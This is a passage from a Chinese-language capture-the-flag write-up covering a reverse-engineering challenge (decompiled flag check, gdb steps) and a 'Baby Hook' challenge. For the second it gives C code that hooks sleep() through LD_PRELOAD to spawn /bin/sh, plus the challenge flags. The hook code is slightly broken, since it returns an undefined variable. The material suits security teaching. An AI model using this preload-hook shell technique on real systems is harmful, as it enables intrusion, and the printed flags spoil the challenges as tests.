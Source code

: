       unsigned __int64 v12; // [rsp+48h] [rbp-8h]

      v12 = __readfsqword(0x28u);
      *s1 = 0LL;
      v8 = 0LL;
      v9 = 0LL;
      v10 = 0LL;
      v11 = 0;
      for ( i = 0; i < a2; ++i )
      {
        v5 = enc_flag[i];
        s1[i] = v5 ^ _0xBACEB00C;
        _0xBACEB00C = a2 - i + (v5 ^ __ROR4__(_0xBACEB00C, 1));
      }
      return strcmp(s1, input_flag) == 0;
    }
    ```
    :::
    
3. 如果按照上面得到的code寫script會出事，具體來說會出啥事不好說，但總之IDA時不時會翻不出來也見怪不怪，反正有問題一率動態跟，至於要跟到哪裡(因為沒有main symbol，所以也不好定位)，我是直接用pwntools的raw_input()強制斷在input的地方，接著就跳到比對的部分，然後flag就出現在stack上了

### Exploit
```bash!
$ gdb
gef➤ at {PID}
gef➤ fin # until to scan_license function
gef➤ b *{PIE base address}26f
gef➤ c
```

## Baby Hook
* Flag: `FLAG{B4by_Ld_Pr3L0aD_L1bR1rY_:)}`

### Description
Try to Hook Me :)

nc edu-ctf.zoolab.org 10002
Flag Format：FLAG{...}

### 解題思路
這一題主要的想法很簡單，就是給他一個so file，然後她會直接用這個so file當作LD_PRELOAD，執行./chall，所以我們要做的事情概念很簡單，就是給他一個有問題的so file，然後當他執行椅面的function時，就會執行我們給他的惡意指令，例如開shell

### Exploit
```cpp!
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <dlfcn.h>

#define unlikely(x) __builtin_expect(!!(x), 0)
#define TRY_LOAD_HOOK_FUNC(name) if (unlikely(!g_sys_##name)) {g_sys_##name = (sys_##name##_t)dlsym(RTLD_NEXT,#name);}


typedef void* (*sys_sleep_t)(size_t size);
static sys_sleep_t g_sys_sleep = NULL;
void* sleep(size_t size)
{
    execve("/bin/sh", (char *[]){0}, (char *[]){0});
    return p;
}
```